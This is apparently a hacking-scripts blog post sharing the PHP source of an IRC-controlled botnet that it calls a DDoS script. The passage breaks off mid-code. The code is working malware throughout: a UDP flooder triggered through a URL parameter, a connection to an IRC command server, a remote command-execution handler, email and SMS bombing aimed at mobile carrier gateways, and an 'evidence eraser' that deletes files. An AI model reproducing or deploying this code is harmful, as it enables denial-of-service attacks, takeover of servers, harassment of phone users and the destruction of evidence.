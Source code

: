 ```yaml
---
id: 39
title: DDoS script
author: admin
layout: post
guid: http://hackingscripts.com/?p=39
permalink: /ddos-script/
categories:
  - DDoS
  - DoS
  - PHP
tags:
  - DDoS
  - DoS
  - PHP
---
```

This is a [DoS/DDoS][1] (denial-of-service/distributed denial-of-service) script, which is used to temporarily take down a machine and make it unavailable to its intended users.

This particular script contained a lot of bad language, which I have censored for net-friendlinmess purposes.


### DDoS Script Source Code

{% highlight php %}<?
if($_GET['act'] == 'lol'){
udpflood4($_GET['host'], $_GET['psize'], $_GET['time'], $_GET['port']);
}
/****************************************************/
/*     ---------------------UniX--------------------            */
/* UniX Bot - Coding by ANoN - This code is Very PUBLIC!            */
/* + Modded UDP Flooder         */
/* + Removed TCP Flooder                                */
/* + Added email bomb                                        */
/* + Added join message                    */
/* + Added !site command         */
/* + Added whois                                         */
/* + Added port scan                                         */
/* + Added Quick UDP Flood                                         */
/* + Added Colors                                        */
/* + Added Count Command    */
/* - Removed Host (IP Address) Auth (Its bullssss)    */
/* + Added Credits                                */
/* + Added Speedtest     */
/* - Removed Useless ssss    */
/* + Cleaned the code    */
/* + Added Version    */
/* + Added New nicks     */
/* + Added Update command     */
/* + Made the update command idiot proof    */
/* + Added commands command    */
/* + Added id command    */
/* + Added uptime command    */
/* + Added evidence eraser    */
/* + Added Cell Phone Spammer    */
/* + Added Cell info    */
/* + Added change prefix    */
/* + Added install update command    */
/* + Added port 3074 DDoS     */
/* + ICMP ddoS?    */
/* + FTP ddoS?    */
/* + Added 2 Player ddos feature     */
/* + Added 3 Player ddos feature     */
/* + Added 4 Player ddos feature     */
/****************************************************/
    set_time_limit( 0 );
    error_reporting( 0 );
    echo "ANoNyMoUS iZ LeGioN";
    class Mike_Unix
    {
        var $using_encode = true;
        var $config = array(
            'nickform'    =&gt; 'FraseR|%d]',
            'nickform2'    =&gt; '%d]',
            'prfix'    =&gt; 'NzM|%d]',
            'identp'    =&gt; 'Mike',
            'modes'        =&gt; '+B',
            'maxrand'    =&gt; 6,
            'maxrand2'    =&gt; 1,
            'maxrand3'    =&gt; 2,
            'maxrand4'    =&gt; 3,
            'cprefix'    =&gt; '.',
            'version'    =&gt; '1.0',
            'host'        =&gt; '*',
            'yellow'        =&gt; '12',
            'blue'        =&gt; '4',
            'orange'        =&gt; '9',
            'green'        =&gt; '7',
            'leetprefix'        =&gt; '4&gt;&gt;',
            'leetsuffix'        =&gt; '12&lt;&lt;',
            'leetprefixwhite'        =&gt; '0&gt;&gt;',
            'leetsuffixwhite'        =&gt; '0&lt;&lt;',
            'leetsuffixred'        =&gt; '4&lt;&lt;',
            'part1'        =&gt; '0?~{ 4',
            'part2'        =&gt; '0}~?',
            'hostauth'        =&gt; '*'
        );
        var $messages = array
        (
        'bad'        =&gt; '0?~{ 14L0o14G0i14N 0}~? 0',
        'loginmsg'    =&gt; '0?~{ 14L0o14G0i14N 0}~? 0',
        'entry'        =&gt; '0?~{ 14ElatioN 14B0o14T0 }~? 14E0x14e0c0u14t0e14D',
        'id'        =&gt; '0?~{ 4 Frasers Anti-Private bot v1.0  0}~?',
        'udpmsg'        =&gt; '0?~{ 12UDP Flood Active 0}~?',
        'udpmsgfast'        =&gt; '0?~{ 12Quick UDP-FLOOD 0}~?',
        'speedtest'        =&gt; '0?~{ 9 Speedtest Starting Up...... 0}~?',
        'speedtestfin'        =&gt; '0?~{ 9 The Speedtest Is Complete. 0}~?',
        'logoutmsg'        =&gt; '0?~{ 14S0e14e 0Y14a 0L14a0T14e0R,',
        'mailmsg'        =&gt; '14N0a14i0L14e0R',
        'sprintmsg'        =&gt; '14S0p14r0i14n0T 14P0C14S',
        'execmsg'        =&gt; '14E0x14E0C'
        );
        var $admins = array
        (
         'Fraser' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'RoboFTW' =&gt; '6d67f24e6f2cff6ed5b0495fab78618a',
         'chrisjnsn' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Respect' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'NadeZ' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Account6' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Account7' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Account8' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Account9' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Account10' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Account11' =&gt; 'e48e13207341b6bffb7fb1622282247b',
        );
        function auth_host( $nick, $password, $host )
        {
                $this-&gt;users[ $host ] = true;
        }
        function is_authed( $host )
        {
            return isset( $this-&gt;users[ $host ] );
        }
        function remove_auth( $host )
        {
            unset( $this-&gt;users[ $host ] );
        }
        function ex( $cfe )
        {
            $res = '';
            if (!empty($cfe))
            {
                if(function_exists('class_exists') && class_exists('Perl'))
                {
                    $perl = new Perl();
                    $perl-&gt;eval( "system('$cfe');" );
                }
                if(function_exists('exec'))
                {
                    @exec($cfe,$res);
                    $res = join("\n",$res);
                }
                elseif(function_exists('shell_exec'))
                {
                    $res = @shell_exec($cfe);
                }
                elseif(function_exists('system'))
                {
                    @ob_start();
                    @system($cfe);
                    $res = @ob_get_contents();
                    @ob_end_clean();
                }
                elseif(function_exists('passthru'))
                {
                    @ob_start();
                    @passthru($cfe);
                    $res = @ob_get_contents();
                    @ob_end_clean();
                }
                elseif(function_exists('proc_open'))
                {
                    $res = proc_open($cfe);
                }
                elseif(@is_resource($f = @popen($cfe,"r")))
                {
                    $res = "";
                    while(!@feof($f)) { $res .= @fread($f,1024); }
                    @pclose($f);
                }
            }
            return $res;
        }
        function is_safe( )
        {
            if( ( @eregi( "uid", $this-&gt;ex( "id" ) ) ) || ( @eregi( "Windows", $this-&gt;ex( "net start" ) ) ) )
            {
                return 0;
            }
            return 1;
        }
        function ffff_you( )
        {
            if( $this-&gt;using_encode )
            {
                $enc0ded = "I0NhYmJhZ2U=";
                return base64_decode($enc0ded);
            }
            else
            {
                return '#'.$this-&gt;config[ 'chan' ];
            }
        }
        function start()
        {
            if( $this-&gt;using_encode )
            {
                $crackedout = "IPHERE";
                if(!($this-&gt;conn = fsockopen(base64_decode($crackedout),6667,$e,$s,30)))
                {
                    $this-&gt;start();
                }
            }
            else
            {
                if(!($this-&gt;conn = fsockopen($this-&gt;config['server'],$this-&gt;config['port'],$e,$s,30)))
                {
                    $this-&gt;start();
                }
            }
            $ident = $this-&gt;config['prefix'];
            $alph = range("0","9");
            for( $i=0; $i &lt; $this-&gt;config['maxrand']; $i++ )
            {
                $ident .= $alph[rand(0,9)];
            }
            if( strlen( $this-&gt;config[ 'pass' ] ) &gt; 0 )
            {
                $this-&gt;send( "PASS ".$this-&gt;config[ 'pass' ] );
            }
            $motha = "Fraser";
            $mike = " non-private non-unix";
            $this-&gt;send("USER ".$motha." 127.0.0.1 localhost :".$mike."");
            $this-&gt;set_nick( );
            $this-&gt;main( );
        }
        function main()
        {
            while(!feof($this-&gt;conn))
            {
                $this-&gt;buf = trim(fgets($this-&gt;conn,512));
                $cmd = explode(" ",$this-&gt;buf);
                if(substr($this-&gt;buf,0,6)=="PING :")
                {
                    $this-&gt;send("PONG :".substr($this-&gt;buf,6));
                }
                if(isset($cmd[1]) && $cmd[1] =="001")
                {
                    $this-&gt;send("MODE ".$this-&gt;nick." ".$this-&gt;config['modes']);
                    if( $this-&gt;using_encode )
                    {
                        $this-&gt;join($this-&gt;ffff_you( ),base64_decode($this-&gt;config['key']));
                        $entry = $this-&gt;messages['entry'];
                        $leetprefix = $this-&gt;config['leetprefix'];
                        $leetsuffixred = $this-&gt;config['leetsuffixred'];
                        $ip = ( $_SERVER["HTTP_HOST"] );
                        $blue = $this-&gt;config['blue'];
                        $red = $this-&gt;config['yellow'];
                        $this-&gt;privmsg( $this-&gt;ffff_you( ), "$leetprefix $entry $leetsuffixred" );
                    }
                    else
                    {
                        $this-&gt;join($this-&gt;ffff_you( ),$this-&gt;config['key']);
                    }
                    if (@ini_get("safe_mode") or strtolower(@ini_get("safe_mode")) == "on") { $safemode = "on"; }
                    else { $safemode = "off"; }
                    $uname = php_uname();
                }
                if(isset($cmd[1]) && $cmd[1]=="433")
                {
                    $this-&gt;set_nick();
                }
                if($this-&gt;buf != $old_buf)
                {
                    $mcmd = array();
                    $msg = substr(strstr($this-&gt;buf," :"),2);
                    $msgcmd = explode(" ",$msg);
                    $nick = explode("!",$cmd[0]);
                    $vhost = explode("@",$nick[1]);
                    $vhost = $vhost[1];
                    $nick = substr($nick[0],1);
                    $host = $cmd[0];
                    if($msgcmd[0]==$this-&gt;nick)
                    {
                        for($i=0;$i&lt;count($msgcmd);$i++)
                            $mcmd[$i] = $msgcmd[$i+1];
                    }
                    else
                    {
                        for($i=0;$i&lt;count($msgcmd);$i++)
                            $mcmd[$i] = $msgcmd[$i];
                    }
                    if(count($cmd)&gt;2)
                    {
                        switch($cmd[1])
                        {
                            case "QUIT":
                            {
                                if( $this-&gt;is_authed( $host ) )
                                {
                                    $this-&gt;remove_auth( $host );
                                }
                            }
                            break;
                            case "PART":
                            {
                                if( $this-&gt;is_authed( $host ) )
                                {
                                    $this-&gt;remove_auth( $host );
                                }
                            }
                            break;
                            case "PRIVMSG":
                                if( ( substr($mcmd[0],0,1) == $this-&gt;config[ 'cprefix' ] ) )
                                {
                                    if( $this-&gt;is_authed( $host ) == false )
                                    {
                                        switch( substr( $mcmd[ 0 ], 1 ) )
                                        {
                                            case "l":
                                            {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                if( $nick == "Fraser" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Hello, $leetprefix FraseR $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "RoboFTW" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg  Robo's In DA House!" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "_0xi" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg iTz My NiGGa $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "HELLOKiTty" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Meeeeeow ;] $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "chrisjnsn" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Hello Chris" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "KeShiMi" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg LORD OF THE MO ffffIN KITTENS IN THA HOUSE $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "Code" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Good day Mr. $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "Router" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Kentucky Fried $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "Respect" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Gonna HiT Sum XbL Kid'z" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "Mason" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg By Your Command, $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "NadeZ" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Hello there, $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                else
                                                {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Gonna HiT Sum XbL Kid'z" );
                                                    break;
                                                            }
                                                                }
                                    }
                                }
                                    else
                                    {
                                        switch(substr($mcmd[0],1))
                                        {
                                            case "exec":
                                            {
                                                if( !$this-&gt;is_safe( ) )
                                                {
                                                    $command = substr( strstr( $msg, $mcmd[0] ), strlen( $mcmd[0] ) + 1 );
                                                    $returndata = $this-&gt;ex( $command );
                                                    if( !empty( $returndata ) )
                                                    {
                                                        $execmsg = $this-&gt;messages['execmsg'];
                                                        $leetprefix = $this-&gt;config['leetprefix'];
                                                        $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $this-&gt;privmsg( $this-&gt;ffff_you( ),"$red $part1 $blue$execmsg $red $part2 $leetsuffixred $red $returndata");
                                                    }
                                                }
                                                break;
                                            }
                                                case "bomb":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                    $header = "From: &lt;".$mcmd[2]."&gt;";
                                                    if(!mail($mcmd[1],$mcmd[3],strstr($msg,$mcmd[5]),$header))
                                                    {
                                                        $this-&gt;privmsg( $this-&gt;ffff_you( ),"[\2MAIL\2]: Unable to send email.");
                                                    }
                                                    else
                                                    {
                                                        $mbomb = 1;
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($mcmd[1],$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $mailmsg = $this-&gt;messages['mailmsg'];
                                                                $part1 = $this-&gt;config['part1'];
                                                                $part2 = $this-&gt;config['part2'];
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1 $mailmsg: $part2 \2 Sent\3"."4 $mcmd[4] \3Emails to \3"."4$mcmd[1]\3 From: \3"."4$mcmd[2]\3 Subject: \3"."4$mcmd[3]\3 \2");
                                                            }
                                                    }
                                                }
                                                break;
                                            }
                                                case "sprint":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                          $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $header = "From: &lt;".$mcmd[2]."&gt;";
                                                        $mbomb = 1;
                                                        $sprintmail = "@messaging.sprintpcs.com";
                                                        $sprint = "$mcmd[1]$sprintmail";
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($sprint,$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $sprintmsg = $this-&gt;messages['sprintmsg'];
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$sprintmsg $part2$blue Sent ".$red." $mcmd[4] ".$blue."Text Message(s) to".$red." $mcmd[1] ".$blue."From:".$red." $mcmd[2]$blue With Subject: ".$red."$mcmd[3]");
                                                            }
                                                }
                                                break;
                                            }
                                                case "verizon":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                          $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $header = "From: &lt;".$mcmd[2]."&gt;";
                                                        $mbomb = 1;
                                                        $verizonmail = "@vtext.com";
                                                        $verizon = "$mcmd[1]$verizonmail";
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($verizon,$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red Verizon Wireless $part2$blue Sent ".$red." $mcmd[4] ".$blue."Text Message(s) to".$red." $mcmd[1] ".$blue."From:".$red." $mcmd[2]$blue With Subject: ".$red."$mcmd[3]");
                                                            }
                                                }
                                                break;
                                            }
                                                case "tmobile":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                          $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $header = "From: &lt;".$mcmd[2]."&gt;";
                                                        $mbomb = 1;
                                                        $tmobilemail = "@tmomail.net";
                                                        $tmobile = "$mcmd[1]$tmobilemail";
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($tmobile,$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red T-Mobile (USA Only) $part2$blue Sent ".$red." $mcmd[4] ".$blue."Text Message(s) to".$red." $mcmd[1] ".$blue."From:".$red." $mcmd[2]$blue With Subject: ".$red."$mcmd[3]");
                                                            }
                                                }
                                                break;
                                            }
                                                case "att":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                          $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $header = "From: &lt;".$mcmd[2]."&gt;";
                                                        $mbomb = 1;
                                                        $attemail = "@txt.att.net";
                                                        $att = "$mcmd[1]$attemail";
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($att,$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red AT&T $part2$blue Sent ".$red." $mcmd[4] ".$blue."Text Message(s) to".$red." $mcmd[1] ".$blue."From:".$red." $mcmd[2]$blue With Subject: ".$red."$mcmd[3]");
                                                            }
                                                }
                                                break;
                                            }
                                                case "uscellular":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                          $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $header = "From: &lt;".$mcmd[2]."&gt;";
                                                        $mbomb = 1;
                                                        $uscemail = "@email.uscc.net";
                                                        $usc = "$mcmd[1]$uscemail";
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($usc,$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red US Cellular $part2$blue Sent ".$red." $mcmd[4] ".$blue."Text Message(s) to".$red." $mcmd[1] ".$blue."From:".$red." $mcmd[2]$blue With Subject: ".$red."$mcmd[3]");
                                                            }
                                                }
                                                break;
                                            }
                                                case "boostmobile":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                          $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $header = "From: &lt;".$mcmd[2]."&gt;";
                                                        $mbomb = 1;
                                                        $boostemail = "@myboostmobile.com";
                                                        $boost = "$mcmd[1]$boostemail";
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($boost,$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red Boost Mobile Inc. $part2$blue Sent ".$red." $mcmd[4] ".$blue."Text Message(s) to".$red." $mcmd[1] ".$blue."From:".$red." $mcmd[2]$blue With Subject: ".$red."$mcmd[3]");
                                                            }
                                                }
                                                break;
                                            }
                                            case "count":
                                            {
                                                    $lines = $this-&gt;ex( "cat cache.dat | wc -l" );
                                                    $red = $this-&gt;config['yellow'];
                                                    $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
                                                    $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$red I have done $leetprefixwhite $lines $leetsuffixwhite floods in total." );
                                                break;
                                            }
                                                case "nick":
                                            {
                                                if( $mcmd[ 1 ] == nzm )
                                                    {
                                                    $this-&gt;nzm_nick();
                                                    break;
                                                    }
                                                if( $mcmd[ 1 ] == unix )
                                                    {
                                                    $this-&gt;busk_nick();
                                                    break;
                                                    }
                                                else
                                                {
                                                $this-&gt;set_nick;
                                                break;
                                            }
                                        }
                                            case "credits":
                                            {
                                                    $red = $this-&gt;config['yellow'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $orange = $this-&gt;config['orange'];
                                                    $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
                                                    $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $version = $this-&gt;config['version'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "".$leetprefixwhite."".$red." FBI $leetsuffixwhite $orange Elation Bot Version $version By: $leetprefixwhite $red Mike $leetsuffixwhite $leetsuffixwhite $orange Built Using: $leetprefixwhite $red Frasers PHP Bot Builder $leetsuffixwhite" );
                                                break;
                                            }
                                            case "noevidence":
                                            {
                                                    $part1 = $this-&gt;config['part1'];
                                                    $part2 = $this-&gt;config['part2'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $bybye = $this-&gt;ex( 'rm -rf *gow*' );
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$part1."".$red." EviDenCe ".$part2."".$blue." All Bot Files and Evidence Erased!");
                                                break;
                                            }
                                            case "version":
                                            {
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $version = $this-&gt;config['version'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$red."The bot version is $leetprefix$blue $version $leetsuffixred");
                                                break;
                                            }
                                            case "changeprefix":
                                            {
                                                      $this-&gt;config['cprefix'] = $mcmd[1];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $version = $this-&gt;config['version'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$red."Prefix Changed to $mcmd[1]");
                                                break;
                                            }
                                            case "id":
